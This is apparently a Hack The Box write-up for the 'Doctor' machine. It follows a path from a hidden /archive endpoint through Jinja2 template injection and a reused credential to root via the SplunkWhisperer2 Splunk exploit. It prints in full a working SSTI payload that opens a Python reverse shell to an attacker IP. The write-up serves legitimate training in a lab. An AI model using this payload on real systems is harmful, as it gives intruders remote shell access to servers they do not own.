 # Doctor

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

### Doctors.htb

The website revealed a basic corporate page:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

There was nothing interesting, until I added `doctors.htb` to the `/etc/hosts` file (as per standard HTB practice) and visited that site.

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Here, we can create an account and test this service. When logged in, we can see a few functions.

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

When examining the page source, we can find an `/archive` endpoint.&#x20;

```markup
 <div class="navbar-nav mr-auto">
              <a class="nav-item nav-link" href="/home">Home</a>
              <!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->
            </div>
            <!-- Navbar Right Side -->
            <div class="navbar-nav">
```

When visiting it, it returns nothing but the **posts that we have made**.&#x20;

### SSTI in Posts

Initially, I tested other vulnerabilities like SSTI on the username and the message posting functions but it didn't return any positives.

<figure><img src="../../../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

When I visited the `/archive` endpoint, we would actually see that it works!

<figure><img src="../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

For SSTI, we can follow this table on HackTricks to determine which framework is being used.

<figure><img src="../../../.gitbook/assets/image (12) (7).png" alt=""><figcaption></figcaption></figure>

For this specific box, we can determine that it's Jinja2 or Twig. On PayloadAllTheThings, there's a payload that works in spawning a reverse shell.

{% code overflow="wrap" %}
```
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"10.10.14.6\",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```
{% endcode %}

When we submit this as a message, it would spawn a reverse shell.

<figure><img src="../../../.gitbook/assets/image (18) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shaun Credentials

I ran LinPEAS to enumerate all files for me, it found a credential for me.

<figure><img src="../../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

When checking for other users, there was only the user `shaun`.

<figure><img src="../../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

We can try using `su` with this credential, and it works.

<figure><img src="../../../.gitbook/assets/image (124) (2).png" alt=""><figcaption></figcaption></figure>

### Splunk RCE

I checked the `/opt` directory, and found that there were some `splunkforwarder` related files within it.

<figure><img src="../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

Normally, Splunk runs on port 8089, and we did find that port open on the machine earlier. Furthermore, this version of Splunk is vulnerable to an RCE exploit called SplunkWhisperer.

{% embed url="https://github.com/cnotin/SplunkWhisperer2" %}

We can easily run the exploit to give us a reverse shell as root.&#x20;

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>
